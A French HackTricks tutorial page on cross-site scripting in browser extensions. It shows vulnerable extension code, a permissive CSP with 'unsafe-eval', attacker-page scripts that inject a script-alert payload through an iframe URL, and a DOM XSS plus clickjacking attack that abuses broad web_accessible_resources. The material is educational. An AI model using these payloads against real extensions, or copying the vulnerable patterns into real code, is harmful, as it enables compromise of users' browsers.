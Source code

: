 # BrowExt - Exemple de XSS

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## XSS sur Iframe

Le **Content script** crée un Iframe indiquant une **URL dans les paramètres de la source de l'iFrame** :
```javascript
chrome.storage.local.get("message", result =>
{
frame.src = chrome.runtime.getURL("message.html") +
"?message=" + encodeURIComponent(result.message) +
"&url=https://example.net/explanation";
});
```
Une page html exposée : **`message.html`**, accessible depuis le **navigateur**, contient un code tel que :
```java
$(() =>
{
let params = new URLSearchParams(location.search);
$(document.body).append(params.get("message") + " <button>Explain</button>");
$("body > button").click(() =>
{
chrome.tabs.create({ url: params.get("url") });
});
});
```
La page malveillante exécute un script comme le suivant pour changer le message pour un **XSS payload** :
```javascript
setTimeout(() =>
{
let frame = document.querySelector("iframe:last-child");
let src = frame.src;

// Remove existing query parameters
src = src.replace(/\?.*/, "");

// Add malicious query parameters
src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

// Load into frame
frame.src = src;
}, 1000);
```
Une politique de sécurité de contenu permissive comme&#x20;
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
permettra l'exécution du code JS.

Une autre manière de déclencher le XSS à volonté consiste à exécuter :
```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
+ encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```
## XSS basé sur le DOM + ClickJacking

La première vulnérabilité est la vulnérabilité XSS basée sur le DOM dans **`/html/bookmarks.html`**, voici le JavaScript vulnérable inclus dans **`bookmarks.js`**:
```javascript
$('#btAdd').click(function() {
var btname = $('#txtName').val();
if ($('.custom-button .name').filter(function() {
return $(this).text() === btname;
}).length) return false;

var span = $('<span class="custom-button">');
span.html('<span class="name">' + btname + '</span>');
span.append('<a href="javascript:void(0)" title="remove">x</a>');
span.attr('title', btname);
span.data('id', (new Date().getTime()));
$('div.custom-buttons .existing').append(span);
save_options();
});
```
Le JavaScript ci-dessus prend la **valeur** de la zone de texte **`txtName`** et utilise **la concaténation de chaînes pour construire du HTML** qui est ajouté au DOM via la fonction [“append()”](https://api.jquery.com/append/) de jQuery.

Normalement, la politique de sécurité du contenu (CSP) des extensions Chrome devrait empêcher l'exploitation de cette vulnérabilité. Cependant, en raison de **l'assouplissement de cette politique via** [**‘unsafe-eval’**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) et de l'utilisation des API DOM de jQuery, cela a quand même pu être **exploité**. Cela est dû au fait que de nombreuses API DOM de jQuery utilisent [“globalEval()”](https://api.jquery.com/jquery.globaleval/), qui passe automatiquement les scripts à [“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) lors de l'ajout au DOM.

Bien que cela soit une vulnérabilité sérieuse, l'exploitation est assez limitée en raison de **l'interaction utilisateur requise pour l'exploiter**. La victime devrait ouvrir la page, coller une charge utile de Cross-site Scripting (XSS) dans le champ et cliquer sur le bouton "Add" pour l'exploiter.

Afin de mieux armer cette vulnérabilité, nous utilisons une vulnérabilité séparée (**clickjacking**) pour renforcer l'attaque.

Ce qui suit est un extrait du manifeste de l'extension Chrome :
```json
...trimmed for brevity...
"web_accessible_resources": [
"_locales/*",
"bundle/*",
"dist/*",
"assets/*",
"font/*",
"html/bookmarks.html",
"css/*.css",
"js/*.js",
"js/jquery/*.js",
"js/lang/*"
],
...trimmed for brevity...
```
La section ci-dessus démontre que l'extension utilise une politique de **`web_accessible_resources`** très large.

La page **`/html/bookmarks.html`** peut également être **encadrée** et donc **exploitée** via le **clickjacking**. Nous abusons de cela pour intégrer cette page dans notre page web, et **superposer le cadre avec des éléments DOM pour redéfinir la mise en page**. Cela fait en sorte que la victime ne se rende pas compte qu'elle **interagit réellement avec l'extension en dessous**. L'animation suivante démontre cet effet (consultez l'animation dans le [**rapport original**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)).

## Références

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
